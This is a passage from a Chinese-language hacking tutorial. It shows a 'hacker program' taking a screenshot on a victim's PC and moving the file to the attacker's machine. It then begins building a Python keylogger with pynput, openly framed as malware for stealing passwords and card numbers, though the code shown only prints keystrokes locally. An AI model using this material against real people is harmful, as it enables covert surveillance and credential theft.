     图 7.6 – 受害者程序截取的屏幕截图

1.  如果你去受害者的 PC，你会看到有一个名为`screenshot.png`的文件保存在磁盘上。你可以使用我们之前学到的方法将该文件传输到黑客的 PC 上。只需在黑客程序中写下以下命令：

    **下载 screenshot.png**

    这将把屏幕截图移动到黑客的 PC 上。我截取了以下屏幕截图：

![图 7.7 – 在 Windows PC 上截取的屏幕截图](img/B14788_07_07.jpg)

图 7.7 – 在 Windows PC 上截取的屏幕截图

在这一部分中，我们学习了如何使用我们的黑客程序截取受害者 PC 的屏幕截图，并将文件传输到黑客的 PC。接下来的部分，我们将学习如何创建一个键盘记录器来追踪受害者的按键记录。

# 键盘记录器

在这一部分中，我们将构建一个简单的键盘记录器。键盘记录器是一种恶意软件程序，用于记录用户的按键记录。它是最常见的恶意软件类型之一。键盘记录器常用于窃取密码和其他敏感信息，如信用卡信息。键盘记录器通常设计得尽可能安静，这意味着它很难被发现。让我们尝试构建一个简单的键盘记录器。你需要安装一个名为`pynput`的模块来构建键盘记录器。这个模块允许你通过编程方式访问按键记录：

1.  要安装此模块，请使用以下命令：

    `pip install pynput`

    这将安装模块：

1.  一旦模块安装完成，我们可以从该模块导入`keyboard`：

    `from pynput import keyboard`

1.  接下来，我们将定义一个监听器，用于监听按键记录。这个监听器会根据不同的事件处理不同的情况。看看以下代码：

    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:

    listener.join()

    之前的代码定义了两个函数，分别用于*按下*和*释放*按键。当按下一个键时，将调用`onPress`函数，而当释放一个键时，将调用`onRelease`函数。

1.  现在我们将定义这些函数。让我们看看这些函数：

    def onPress(key):

    print(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    return False

    我们定义了非常简单的函数。当按下键时，我们只需打印它，而当键被释放时，我们会检查按下了哪个键。如果按下的是*Esc*键，我们就退出程序，否则继续。这样，我们就有了退出条件，避免了程序卡住。如果我们没有定义这个条件，就无法退出程序，因为按下*Ctrl* + *C*会只是打印出信息，而不是退出。为了安全地退出这个函数，我们返回`False`值。让我们来看一下一个简单的执行过程：

    ![图 7.8 – 打印按下的键    ](img/B14788_07_08.jpg)

